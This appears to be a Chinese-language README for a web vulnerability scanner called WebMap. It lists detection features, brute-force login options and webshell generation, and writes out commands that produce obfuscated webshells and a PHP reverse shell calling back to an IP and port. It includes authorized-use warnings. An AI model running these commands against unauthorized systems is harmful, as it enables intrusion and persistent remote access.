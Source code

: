 # Wyl-K Web Vulnerability Scanner

WebMap 是一个功能强大的Web漏洞扫描器，能够检测SQL注入、XSS、文件上传等常见Web安全漏洞。

## 功能特点

- 检测SQL注入漏洞
- 检测跨站脚本(XSS)漏洞
- 检测文件上传漏洞
- 检测目录遍历漏洞
- 检测弱密码和暴力破解登录
- 网站爬虫和链接提取
- 生成不同类型的WebShell
- 支持多线程扫描
- 生成详细的扫描报告

## 安装说明

### 环境要求
- Python 3.7+ 
- 所需依赖包

### 安装步骤
1. 克隆或下载项目代码到本地
2. 安装依赖包:
   ```
   pip install requests beautifulsoup4 colorama
   ```
   或者创建requirements.txt文件并添加以下内容:
   ```
   requests
   beautifulsoup4
   colorama
   ```
   然后运行:
   ```
   pip install -r requirements.txt
   ```
3. 运行扫描器:
   ```
   python web_vulnerability_scanner.py -u http://example.com
   ```
4. 或者使用已打包的可执行文件:
   ```
   dist\webmap.exe -u http://example.com
   ```

## 使用方法

### 基本扫描
```
# 使用Python脚本
python web_vulnerability_scanner.py -u http://example.com

# 使用可执行文件
dist\webmap.exe -u http://example.com
```

### 高级扫描选项
```
# 设置扫描深度为5
python web_vulnerability_scanner.py -u http://example.com -d 5
dist\webmap.exe -u http://example.com -d 5

# 启用多线程扫描(10线程)
python web_vulnerability_scanner.py -u http://example.com -t 10
dist\webmap.exe -u http://example.com -t 10

# 保存报告到指定文件
python web_vulnerability_scanner.py -u http://example.com -o report.json
dist\webmap.exe -u http://example.com -o report.json

# 启用详细输出
python web_vulnerability_scanner.py -u http://example.com -v
dist\webmap.exe -u http://example.com -v

# 启用暴力破解登录
python web_vulnerability_scanner.py -u http://example.com -b
dist\webmap.exe -u http://example.com -b
```

### WebShell生成功能
```
# 生成简单PHP WebShell
python web_vulnerability_scanner.py --generate-webshell --webshell-type php --webshell-template simple
dist\webmap.exe --generate-webshell --webshell-type php --webshell-template simple

# 生成反向Shell
python web_vulnerability_scanner.py --generate-webshell --webshell-type php --webshell-template reverse_shell --reverse-ip 192.168.1.100 --reverse-port 4444
dist\webmap.exe --generate-webshell --webshell-type php --webshell-template reverse_shell --reverse-ip 192.168.1.100 --reverse-port 4444

# 自动生成WebShell并保存到文件
python web_vulnerability_scanner.py --auto-webshell php --output-webshell shell.php
```

## 命令行参数

- `-u`, `--url`: 目标URL (必需)
- `-t`, `--threads`: 线程数 (默认: 5)
- `-o`, `--output`: 报告输出文件 (默认: scan_report_<timestamp>.json)
- `-d`, `--depth`: 爬取深度 (默认: 3)
- `-T`, `--timeout`: 请求超时时间 (默认: 10秒)
- `-a`, `--user-agent`: 自定义用户代理
- `-v`, `--verbose`: 启用详细输出
- `-b`, `--brute-force`: 启用暴力破解登录
- `-U`, `--usernames`: 用户名字典文件路径
- `-P`, `--passwords`: 密码字典文件路径
- `-m`, `--max-attempts`: 最大登录尝试次数 (默认: 100)
- `--generate-webshell`: 生成WebShell
- `--webshell-type`: WebShell类型 (php, asp, jsp, 默认: php)
- `--webshell-template`: WebShell模板 (simple, post, base64, obfuscated, reverse_shell, 默认: simple)
- `--reverse-ip`: 反向Shell的IP地址
- `--reverse-port`: 反向Shell的端口 (默认: 4444)
- `--output-webshell`: WebShell输出文件
- `--auto-webshell`: 自动生成WebShell (指定文件扩展名)

## 注意事项
1. 请仅在有授权的网站上使用本工具
2. 未经许可对他人网站进行扫描可能违反法律法规
3. 对于大型网站，建议调整扫描深度和线程数以避免对目标服务器造成过大压力
4. WebShell生成功能仅用于合法的渗透测试和安全评估

## 版本信息
当前版本: 1.0.1

## 免责声明
本工具仅供学习和研究使用，作者不对使用本工具造成的任何损失或违法行为负责。